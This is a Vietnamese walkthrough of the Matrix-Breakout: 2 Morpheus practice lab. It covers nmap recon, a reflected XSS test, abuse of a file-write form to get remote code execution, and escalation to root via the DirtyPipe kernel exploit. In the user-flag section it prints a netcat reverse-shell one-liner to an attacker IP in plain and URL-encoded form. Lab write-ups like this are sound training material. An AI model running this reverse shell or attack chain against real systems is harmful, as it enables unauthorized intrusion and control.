<div align="center">
    <h1>Matrix-Breakout: 2 Morpheus Writeup</h1>
</div>

## 🔍1. Recon

- Khởi động target


- Quét `nmap`, tìm được một số cổng mở:
    - `22` chạy SSH.
    - `80` chạy Apache http server.
    - `81` chạy nginx http server.



- Tuy nhiên port `81` yêu cầu thông đăng nhập, vì vậy tập trung khai thác port `80`.

- Sử dụng `nmap` quét file, thư mục ẩn.



- Thu được một số file tiềm năng.



- Trong đó, `graffiti.php` chứa một form message có thể nhập input và reflect lên giao diện.



## 🔑2. User flag

- Thử script XSS: `<script>alert(1)</script>`



- Ghi nhận lỗ hổng `Reflected XSS`.



- Tuy nhiên không thể khai thác trực tiếp sâu hơn với lỗ hổng này.

- Sử dụng `BurpSuite` kiểm tra POST request.



- Theo đó, cùng với dữ liệu truyền vào từ `message`, người dùng được phép chỉ định file để ghi nội dung.



- Có thể tạo một shell để thực hiện `RCE`



- Thành công `RCE` trên hệ thống 



- Chèn reverse shell 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.190.130 4444 >/tmp/f
```
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.190.130%204444%20%3E%2Ftmp%2Ff
```


- Vào thành công hệ thống và lấy được flag 1.



## 3. Root Flag

- Kiểm tra hệ thống, tìm được mật khẩu của user cypher dưới dạng md5 có salt.



- Thử crack mật khẩu này tuy nhiên không thành công



- Chạy `linpeas` trên mục tiêu để tìm các vector có thể leo thang đặc quyền.



- Tìm được `python3-9` có có capability `cap_sys_admin`



- Tuy nhiên không khai thác thành công.

- Trong kết quả `Linpeas` có đề cập một số CVE liên quan đến phiên bản kernel Linux.

- Kiểm tra phiên bản kernel.



- Tìm lỗ hổng với phiên bản này trên `searchsploit`



- POC https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

- Biên dịch file POC



- Sau đó chạy file khai thác với đầu vào là `/usr/bin/sudo` có quyền `SUID`



- Thành công leo lên root và lấy được flag thứ 2




